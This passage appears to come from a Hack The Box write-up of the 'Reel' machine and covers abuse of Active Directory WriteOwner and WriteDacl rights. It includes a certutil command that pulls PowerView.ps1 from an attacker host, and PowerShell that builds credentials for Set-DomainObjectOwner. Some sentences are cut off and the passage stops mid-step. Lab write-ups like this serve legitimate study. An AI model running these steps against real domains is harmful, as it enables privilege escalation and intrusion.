 With **acls.csv** file, we won't need Bloodhound.

Searching for **tom@htb.local**, we can see information about the user:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-27.png)

So tom has WriteOwner rights over claire:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-28.png)

I’ll see claire has WriteDacl rights over the Backup_Admins group object:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-29.png)

Finally, we can see that Bac


So we will first

### WriteOwner

Bloodhound Support got a great guide on how to exploit this [here](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312755938203-WriteOwner).

https://jadu101.github.io/Hackthebox%F0%9F%93%A6/Windows%F0%9F%93%98/HTB-Object#writeowner-abuse

To change the ownership of the object, you may use the Set-DomainObjectOwner function in PowerView.

To abuse this privilege with PowerView’s Set-DomainObjectOwner, first import PowerView into your agent session or into a PowerShell instance at the console. You may need to authenticate to the Domain Controller as the user with the password reset privilege if you are not running a process as that user.

`certutil.exe -urlcache -split -f http://10.10.14.36:1234/PowerView.ps1`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-51.png)

To do this in conjunction with Set-DomainObjectOwner, first create a PSCredential object (these examples comes from the PowerView help documentation):

$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force


$Cred = New-Object System.Management.Automation.PSCredential('htb.local\claire', $SecPassword)

Then, use Set-DomainObjectOwner, optionally specifying $Cred if you are not already running a process as the user with this privilege:
